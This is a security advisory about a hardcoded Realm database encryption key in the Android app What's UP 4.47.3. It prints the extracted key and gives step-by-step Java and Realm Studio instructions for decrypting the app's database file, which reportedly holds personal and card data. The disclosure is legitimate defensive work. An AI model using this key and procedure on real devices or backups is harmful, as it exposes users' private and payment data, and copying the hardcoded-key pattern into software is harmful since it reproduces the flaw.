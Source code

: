 # [Hardcoded Realm Database Encryption Key] found in What's UP Android App 4.47.3 - (RealmDB.java)

Affected Project: **WHAT'S UP 4.47.3**

Platform: Android

Vendor: Cosmote Greece

Official Website: (https://play.google.com/store/apps/details?id=gr.cosmote.whatsup)

Version: 4.47.3

Updated: Oct 10, 2024

<br />

> Installs: 5,000,000+

> Category: Tools

> Android Version Code: 2410115

> File Name: gr.cosmote.whatsup.apk

> Size: 20.06MB

> SHA256: 56fcd6278c70af76b342bd3374b5322d0531a5fe6db8a4dffdcd8002ade59d51

<br /> 

### CWE-312: Cleartext Storage of Sensitive Information
### CVSS v3.1 Base Score: 7.8 (High)

<br /> 

The application embeds a hardcoded encryption key `(defaultRealmKey)` within the source code file `gr/desquared/kmmsharedmodule/db/RealmDB.java`. This key is used to encrypt the Realm database file named `defaultKMMV4.realm.enc`. Because the encryption key is hardcoded and packaged inside the APK, an attacker can extract it from the APK file. This exposure enables the attacker to decrypt the database file, leading to unauthorized access to confidential user information, including sensitive personal data and credit card details.


<br /> Vulnerability found at: **RealmDB.java**

Path: gr/desquared/kmmsharedmodule/db/RealmDB.java

<br />  

## Vulnerability Analysis:

Tool for decompiling the simple architect .apk or bundle file: [Jadx](https://github.com/skylot/jadx)

The RealmDB class in RealmDB.java is responsible for managing the encrypted Realm database within the mobile application: 

```
public final class RealmDB {
    public static final String ENCRYPTED_REALM = "ENCRYPTED_REALM";
    public static final RealmDB INSTANCE = new RealmDB();
    private static final String databaseName = "defaultKMMV4";
    private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
    private static final String encryptedRealmFileName = "defaultKMMV4.realm.enc";
    private static final long encryptedRealmVersion = 80;
```

Within this class there is a hardcoded encryption key used for securing the database:

```
private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
```

<br />

## Impact

1. Predictable Key: A hardcoded encryption key, especially one that is the same across all installations of the application, is inherently insecure. Attackers who decompile the application can easily extract this key.

2. Ease of Decryption: With access to the encryption key, an attacker can decrypt the database contents if they gain access to the device or a backup of the application's data, compromising sensitive user information.

3. Regulatory Non-Compliance: As the application stores personal data and credit cards info, the use of weak encryption practices may violate data protection regulations like GDPR, HIPAA, etc.


<br />

## Decryption sample code

The defaultRealmKey string is converted into a byte array before being used.

Convert the Encryption Key:

```
// Java example
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);
```


Configure Realm with the Encryption Key:

```
// Java example
RealmConfiguration config = new RealmConfiguration.Builder()
    .name("defaultKMMV4.realm.enc")
    .encryptionKey(keyBytes)
    .schemaVersion(80)
    .build();
```


Open the Encrypted Realm:

```
// Java example
Realm realm = Realm.getInstance(config);
```


Access and Export Data:

```
// Java example
RealmResults<YourRealmObject> results = realm.where(YourRealmObject.class).findAll();
```


<br />

## Alternative decryption method: Using Realm Studio

Convert the Key to Hexadecimal Format as Realm Studio requires the encryption key in hexadecimal format:

```
// Java code
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);

// Convert byte array to hex string
StringBuilder hexString = new StringBuilder();
for (byte b : keyBytes) {
    String hex = String.format("%02x", b);
    hexString.append(hex);
}

String encryptionKeyHex = hexString.toString();
```


Now launch Realm Studio.
Open the encrypted Realm file (defaultKMMV4.realm.enc).
When prompted, enter the hexadecimal encryption key (encryptionKeyHex).

DONE !
